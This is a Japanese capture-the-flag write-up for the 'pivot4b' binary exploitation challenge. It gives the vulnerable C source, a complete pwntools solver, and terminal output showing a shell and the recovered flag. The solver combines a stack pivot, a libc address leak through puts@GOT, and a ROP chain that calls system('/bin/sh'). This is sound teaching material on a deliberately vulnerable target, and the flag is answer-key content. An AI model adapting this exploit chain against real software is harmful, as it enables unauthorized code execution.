 ## pivot4b (394pt / 117 solves)
> スタックはあなたが創り出すものです。
>
> nc [問題鯖のホスト名] [ポート番号]

恐らく解くのに最も時間が掛かった問題で、かつ解けたのがかなり嬉しかった問題。

次に示すソースコードが与えられている。
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gift_set_first_arg() {
	asm volatile("pop %rdi");
	asm volatile("ret");
}

void gift_call_system() {
	system("echo \"Here's your gift!\"");
}

int main() {
	char message[0x30];

	printf("Welcome to the pivot game!\n");
	printf("Here's the pointer to message: %p\n", message);

	printf("> ");
	read(0, message, sizeof(message) + 0x10);

	printf("Message: %s\n", message);

	return 0;
}


__attribute__((constructor)) void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  alarm(120);
}
```

read関数を見ると、明らかにバッファオーバーフローが可能なつくりにはなっているものの、`0x10`バイト分しか余裕がない。gdb-pedaで実験してみたところ、リターンアドレスよりも下のスタック領域は書き換えることができなかった。これではsystem関数に引数を与えることができない。  
こんな時に有効なのがstack pivotというテクニック。leave命令でrspを書き換えてより広い領域を指すようにし、そこをスタックとして利用する、というのが基本の考え方となる。私はこの問題で初めてstack pivotに触れることになった（加えて、ROPもあまり経験がない）ので、[詳解セキュリティコンテスト](https://ctfbook.github.io/2nd/)やstack pivotに関する情報が載っているブログ記事、そしてgdb-pedaとにらめっこしながらソルバを書いた。その内容を以下に示す。
```python
from pwn import *

target = './chall'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

binary = ELF(target)
libc = binary.libc
addr_pop_rdi = 0x40117a
addr_system = 0x40118d
addr_leave = 0x401211
addr_binsh = 0
addr_msg = 0

proc = remote(hostname, port)

proc.recvuntil('Here\'s the pointer to message: ')
addr_msg = int(proc.recvline()[2:14].decode(), 16)
payload_1 = pack(addr_pop_rdi)
payload_1 += pack(binary.got['puts'])
payload_1 += pack(binary.plt['puts'])
payload_1 += pack(binary.symbols['main']+1)
payload_1 += b'A' * 0x8
payload_1 += pack(binary.symbols['main']+1)
payload_1 += pack(addr_msg - 8)
payload_1 += pack(addr_leave)

proc.sendlineafter('> ', payload_1)

proc.recvline()
libc_leak = int.from_bytes(proc.recvline()[0:-1], 'little')
libc.address = libc_leak - libc.symbols['puts']

addr_binsh = next(libc.search('/bin/sh\x00'))
payload_2 = pack(0x40101a)
payload_2 += pack(addr_pop_rdi)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_system)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_binsh)
payload_2 += pack(addr_msg - 8)
payload_2 += pack(addr_leave)

proc.sendlineafter('> ', payload_2)
proc.interactive()
```

このソルバの流れとしては、
1. 配列msgにlibcのベースアドレスをリークさせるための命令を積む
2. leave命令で配列msgの先頭-8バイトのアドレスをrspに格納する
3. ret命令でmsgの先頭にrspが移る
4. puts(puts@GOT)でputs関数のGOTアドレスを手に入れ、main関数の先頭から1バイト先の位置に戻る（1バイト先の位置に戻っているのは、スタックのアラインメントを合わせるため）
5. 手に入れたGOTアドレスからlibc内のputs関数のオフセットを引き、libcのベースアドレスを算出しておく
6. 更にもう一度main関数の先頭から1バイト先のところに戻り、ユーザ入力を可能にする
7. 再び配列msgの内容を書き換える。今度はsystem関数を実行するための命令を積む
8. 再度leave命令からのret命令でmsgの先頭にrspを移す
9. '/bin/sh'を引数にしてsystem関数が実行、すなわちシェルが起動する

......こんな感じだったと思う。「思う」というのは、このソルバはああでもないこうでもない、と頭をひねりながら色々やっていたらなんかできた！って感じのものなので、細部まで説明するのが難しい。例えば6.はどうしてそうしているのか、自分でも思い出せなくなってしまった......。（確かこうしないとrspがずれてアドレスが正しく解釈されない、みたいな感じだったとは思う）  
なお、ROP gadgetとsystem関数のアドレスはソースコード内にギフトとして与えられているので、それを利用している。  
何にせよ、このソルバを通すとフラグが得られた。
```
$ python3 solver.py
[+] Opening connection to [hostname] on port [port]: Done
poc.py:30: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.recvuntil('Here\'s the pointer to message: ')
140720973439520
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
poc.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  addr_binsh = next(libc.search('/bin/sh\x00'))
[*] Switching to interactive mode
Message: 

Welcome to the pivot game!
Here's the pointer to message: 0x7ffe223c3ee0
> Message: \x1a\x10@
$ ls
flag-bce7759151aa98ff2e61358f578ec2eb.txt
run
$ cat flag-bce7759151aa98ff2e61358f578ec2eb.txt
ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}
```

### `ctf4b{7h3_57ack_c4n_b3_wh3r3v3r_y0u_l1k3}`
